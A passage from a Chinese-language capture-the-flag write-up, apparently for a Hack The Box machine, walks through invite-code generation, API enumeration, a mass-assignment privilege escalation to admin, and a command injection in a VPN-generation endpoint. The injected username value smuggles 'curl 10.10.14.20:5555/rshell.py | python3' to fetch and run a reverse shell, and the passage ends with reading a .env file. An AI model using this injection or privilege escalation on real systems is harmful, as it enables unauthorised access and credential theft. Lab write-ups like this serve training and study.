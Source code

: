 直接 CyberChef 解 ROT13 得到 In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate。
好吧，改个 PATH，再 POST 一下，得到

```json
{"0":200,"success":1,"data":{"code":"QUtZOEYtMENKMzMtSEE5OVEtS1VHTzQ=","format":"encoded"}}
```

解码得到 `PBBOO-D9FOB-9BVZP-KCGHW`，不知道为什么 POST 到 `/api/v1/invite/verify` 的结果是 invalid。不管。

注册登录后，顺着提示点击 Connection Pack，下载链接为 `/api/v1/user/vpn/generate`。
访问 `/api/v1`，得到一堆 API。

```plain
v1
  user
    GET
      /api/v1 "Route List"
      /api/v1/invite/how/to/generate "Instructions on invite code generation"
      /api/v1/invite/generate "Generate invite code"
      /api/v1/invite/verify "Verify invite code"
      /api/v1/user/auth "Check if user is authenticated"
      /api/v1/user/vpn/generate "Generate a new VPN configuration"
      /api/v1/user/vpn/regenerate "Regenerate VPN configuration"
      /api/v1/user/vpn/download "Download OVPN file"
    POST 
      /api/v1/user/register "Register a new user"
      /api/v1/user/login "Login with existing user"
  admin 
    GET 
      /api/v1/admin/auth "Check if user is admin"
    POST 
      /api/v1/admin/vpn/generate "Generate VPN for specific user"
    PUT 
      /api/v1/admin/settings/update "Update user settings"
```

发现 `/api/v1/admin/settings/update` 能改管理员身份，传一个

```json
{
  "email": "a@a.com",
  "is_admin":1
}
```

就能把自己改成 admin。

对 `/api/v1/admin/vpn/generate` 进行命令注入：

```json
{
"username": "abc;curl 10.10.14.20:5555/rshell.py | python3;ls"
}
```

把 shell 弹出来。
`cat .env` 看到
